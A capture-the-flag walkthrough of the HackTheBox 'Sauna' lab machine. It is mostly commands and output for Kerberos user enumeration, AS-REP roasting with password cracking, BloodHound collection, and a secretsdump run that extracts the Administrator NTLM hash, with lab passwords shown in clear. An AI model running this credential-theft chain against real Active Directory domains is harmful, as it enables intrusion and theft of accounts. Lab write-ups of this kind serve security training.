 ```yaml
---
title: HackTheBox-Sauna
date: 2024-12-23 09:39:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [username-anarchy, asrep]     # TAG names should always be lowercase
image : /assets/images/EQplyVRXUAAx0Ij.jpg
---
```


after getting usernames at Website use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) for create users list

## username-anarchy

    (myenv) ➜  username-anarchy git:(master) ./username-anarchy --input-file ../usernames.txt --select-format first,last,flast,first.last,firstl

## kerbrute

    ➜  sauna /home/elliot/tools/kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL users.txt --dc 10.10.10.175

        __             __               __     
    / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
    / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: v1.0.3 (9dad6e1) - 12/20/24 - Ronnie Flathers @ropnop

    2024/12/20 04:48:12 >  Using KDC(s):
    2024/12/20 04:48:12 >   10.10.10.175:88

    2024/12/20 04:48:12 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL

## ASREP

    ➜  sauna impacket-GetNPUsers 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -dc-ip 10.10.10.175

AND CRACK PASS
    ➜  sauna john hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)

## bloodhound

    ➜  bloodhound bloodhound-python -d EGOTISTICAL-BANK.LOCAL -c all -u fsmith -p 'Thestrokes23' --zip -ns 10.10.10.175

GRAB PASS AT BLOODHOUND OR LDAPSEARCH

## secretsdump

    ➜  sauna impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::

Video walkthrough
[WATCH!](https://youtu.be/z9GaIPxhaEs)